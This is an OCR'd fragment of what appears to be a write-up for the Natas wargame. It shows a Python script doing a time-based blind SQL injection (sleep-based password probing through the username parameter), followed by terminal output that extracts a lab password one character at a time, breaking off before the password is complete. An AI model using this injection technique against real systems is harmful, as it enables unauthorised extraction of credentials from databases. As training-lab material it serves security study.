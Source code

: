 ```
		try:
			r = requests.get(target+'?username=natas18" AND IF(password LIKE BINARY "' + password + c + '%", sleep(5), null) %23', timeout=1)
		except requests.exceptions.Timeout:
			password += c
			print 'Password: ' + password + '*' * int(32 - len(password))
			break

print 'Completed!'

root@kali:~# ./brute.py
Using: 0
Using: 04
Using: 047
Using: 047d
Using: 047dg
Using: 047dgh
Using: 047dghj
Using: 047dghjl
Using: 047dghjlm
Using: 047dghjlmp
Using: 047dghjlmpq
Using: 047dghjlmpqs
Using: 047dghjlmpqsv
Using: 047dghjlmpqsvw
Using: 047dghjlmpqsvwx
Using: 047dghjlmpqsvwxy
Using: 047dghjlmpqsvwxyC
Using: 047dghjlmpqsvwxyCD
Using: 047dghjlmpqsvwxyCDF
Using: 047dghjlmpqsvwxyCDFI
Using: 047dghjlmpqsvwxyCDFIK
Using: 047dghjlmpqsvwxyCDFIKO
Using: 047dghjlmpqsvwxyCDFIKOP
Using: 047dghjlmpqsvwxyCDFIKOPR
All characters used. Starting brute force... Grab a coffee, might take a while!
Password: x*******************************
Password: xv******************************
Password: xvK*****************************
Password: xvKI****************************
Password: xvKIq***************************
Password: xvKIqD**************************
Password: xvKIqDj*************************
Password: xvKIqDjy************************
Password: xvKIqDjy4***********************
Password: xvKIqDjy4O**********************
Password: xvKIqDjy4OP*********************
Password: xvKIqDjy4OPv********************
Password: xvKIqDjy4OPv7*******************
Password: xvKIqDjy4OPv7w******************
Password: xvKIqDjy4OPv7wC*****************
Password: xvKIqDjy4OPv7wCR****************
Password: xvKIqDjy4OPv7wCRg***************
Password: xvKIqDjy4OPv7wCRgD**************
Password: xvKIqDjy4OPv7wCRgDl*************
Password: xvKIqDjy4OPv7wCRgDlm************
Password: xvKIqDjy4OPv7wCRgDlmj***********
Password: xvKIqDjy4OPv7wCRgDlmj0**********
Password: xvKIqDjy4OPv7wCRgDlmj0p*********
Password: xvKIqDjy4OPv7wCRgDlmj0pF********
Password: xvKIqDjy4OPv7wCRgDlmj0pFs*******
Password: xvKIqDjy4OPv7wCRgDlmj0pFsC******
Password: xvKIqDjy4OPv7wCRgDlmj0pFsCs*****
```